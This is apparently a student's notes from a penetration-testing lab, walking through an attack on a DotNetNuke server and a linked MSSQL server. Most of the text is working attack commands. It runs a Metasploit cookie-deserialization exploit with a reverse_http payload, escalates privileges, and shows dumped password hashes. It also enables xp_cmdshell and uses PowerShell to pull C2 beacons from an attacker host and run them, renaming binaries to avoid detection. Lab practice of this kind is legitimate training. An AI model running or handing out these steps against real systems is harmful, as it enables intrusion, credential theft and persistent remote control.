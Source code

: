 Regain Access:
```

```

Nmap scan below. Looked like a promising first hit.
```
Nmap scan report for 10.10.110.10
Host is up (0.049s latency).
Not shown: 65531 filtered tcp ports (no-response)
PORT      STATE  SERVICE VERSION
80/tcp    open   http    Microsoft IIS httpd 10.0
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
| http-robots.txt: 30 disallowed entries (15 shown)
| /admin/ /App_Browsers/ /App_Code/ /App_Data/ 
| /App_GlobalResources/ /bin/ /Components/ /Config/ /contest/ /controls/ 
|_/DesktopModules/ /Documentation/ /HttpModules/ /images/ /Install/
|_http-favicon: Unknown favicon MD5: 2DE6897008EB657D2EC770FE5B909439
|_http-title: Home
443/tcp   closed https
3391/tcp  closed savant
49443/tcp closed unknown
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```



Website is running DNN (dotnetnuke)
![[Pasted image 20250501120838.png]]

Potentially version 7.0
![[Pasted image 20250501121056.png]]

Registering a user tells us that the site admin has to verify and view our request.
![[Pasted image 20250501121310.png]]

Weak version of DNN, maybe google and look for an RCE?
No luck with a dnn cookie deserialization rce
![[Pasted image 20250501122524.png]]

It looks vulnerable, helpful blogpost?

https://pentest-tools.com/blog/exploit-dotnetnuke-cookie-deserialization

Need to change the payload to  

```bash
msfconsole -q
use windows/http/dnn_cookie_deserialization_rce
set lhost tun0
set rhosts 10.10.110.10
set payload payload/windows/meterpreter/reverse_http
# In meterpreter, only privesc if you need to
getsystem
# Might need to repeat it a second time
getsystem
# Use privileged meterpreter to run privileged beacon
# Upload beacon
meterpreter > upload /home/kali/work/prolab/sliver/httpbeacon443.exe C:\\Windows\\Tasks\\handler.exe
meterpreter > 
```
We should be aware of Firewalls. Reverse http is very good at getting around these.
We can use meterpreter getsystem to privesc, and then hashdump to get some hashes,


```
Administrator:500:aad3b435b51404eeaad3b435b51404ee:4e63f2ecad6ac1c809564e26ea764999:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0
```

We'll find the first flag in the DotNetNukedirectory

Checking the running processes, we see some SQL stuff running. We can use nmap, netexec, bloodhound to figure out the names of the servers.

Using netexec, we can check for anything in the domain running MSSQL
```bash
netexec mssql 10.9.20.13/24 -u '' -p ''
```
![[Pasted image 20250528223400.png]]

Through the binaries, it's sort of implied that we have permissions to this SQL server. 

We need to use sqlcmd
https://github.com/microsoft/go-sqlcmd/releases/tag/v1.8.2
```bash
wget https://github.com/microsoft/go-sqlcmd/releases/download/v1.8.2/sqlcmd-windows-amd64.zip
unzip sqlcmd-windows-amd64.zip
```

We can upload this using our Mythic C2.

```mythic
upload
```

And then run it. We're using the shell command in Mythic C2, and then passing everything after that as an arguement
```
shell C:\windows\tasks\sqlcmd.exe -S tcp:10.9.20.11,1433 -Q "select @@ version;"
```
It doesn't seem to like the name 'sqlcmd.exe', so we'll rename it.
![[Pasted image 20250528224341.png]]

```
shell C:\windows\tasks\update64.exe -S tcp:10.9.20.11,1433 -Q "select @@ version;"
```

That doesn't work. It turns out that it's actually the cywebdw MSSQL server that we can authenticate to. This makes sense, because we're on a web server. Also note the domain at the end (m3c.local).
```
shell C:\windows\tasks\update64.exe -S CYWEBDW -Q "EXECUTE('SELECT name FROM master.dbo.sysdatabases') AT[m3sqlw.m3c.local];"
```

![[Pasted image 20250528225500.png]]

We can try enabling XP_CMDShell

Ask chatgpt to fix the error and make it workhen the next command
```bash
# Enable xp_cmdshell
shell C:\windows\tasks\update64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''') AT[m3sqlw.m3c.local];"

shell C:\windows\tasks\update64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''; RECONFIGURE;') AT[m3sqlw.m3c.local];"

shell C:\windows\tasks\update64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''xp_cmdshell'', ''1''') AT[m3sqlw.m3c.local];"

shell C:\windows\tasks\update64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''; RECONFIGURE;') AT[m3sqlw.m3c.local];"

# Run Whoami
shell C:\windows\tasks\update64.exe -S 10.9.20.13 -Q "EXECUTE('xp_cmdshell ''whoami''') AT[m3sqlw.m3c.local];"

# Download the Beaco
shell C:\windows\tasks\update64.exe -E -S CYWEBDW -Q "EXECUTE('EXEC xp_cmdshell ''powershell -NoP -NonI -c Invoke-WebRequest -Uri http://10.10.16.157:139/updater64.exe -OutFile c:\windows\tasks\updater64.exe''') AT [m3sqlw.m3c.local];"
```

After a LOT of trouble, we learn that only 80 and 443 are working for traffic. We have to shut down Ligolo to download the file.
```bash
# Download the beacon
shell C:\windows\tasks\update64.exe -E -S CYWEBDW -Q "EXECUTE('EXEC xp_cmdshell ''powershell -NoP -NonI -c Invoke-WebRequest -Uri http://10.10.16.157:443/taskhandler64.exe -OutFile c:\windows\tasks\taskhandler64.exe''') AT [m3sqlw.m3c.local];"

# Run it
shell C:\windows\tasks\update64.exe -E -S CYWEBDW -Q "EXECUTE('EXEC xp_cmdshell ''c:\windows\tasks\taskhandler64.exe''') AT [m3sqlw.m3c.local];"
```

## Sliver Commands
```bash
# Upload sqlcmd
sliver > upload /home/kali/work/prolab/web/sqlcmd.exe C:\\ProgramData\\updater64.exe

# Enable XP_CMDshell
sliver > execute C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''') AT[m3sqlw.m3c.local];"

# Spawn an interactive shell
sliver > shell
shell > C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''') AT[m3sqlw.m3c.local];"
shell > C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''; RECONFIGURE;') AT[m3sqlw.m3c.local];"
shell > C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''xp_cmdshell'', ''1''') AT[m3sqlw.m3c.local];"
shell > C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('sp_configure ''show advanced options'', ''1''; RECONFIGURE;') AT[m3sqlw.m3c.local];"

# Run Whoami
shell > C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('xp_cmdshell ''whoami''') AT[m3sqlw.m3c.local];"

# Download Beacon
shell > C:\ProgramData\updater64.exe -E -S CYWEBDW -Q "EXECUTE('EXEC xp_cmdshell ''powershell -NoP -NonI -c Invoke-WebRequest -Uri http://10.10.15.250:443/httpbeacon80fast2.exe -OutFile C:\ProgramData\updater64.exe''') AT [m3sqlw.m3c.local];"

# Check Directory
C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('xp_cmdshell ''dir C:\ProgramData''') AT[m3sqlw.m3c.local];"

# Execute beacon
shell > C:\ProgramData\updater64.exe -S 10.9.20.13 -Q "EXECUTE('xp_cmdshell ''C:\ProgramData\updater64.exe''') AT[m3sqlw.m3c.local];"

# Dump hashes
```


## Profiles
We can use profiles to make our lives a lot easier, and to save major configuration settings.
Let's say we wanted to set a profile, and generate beacons from it.
```

```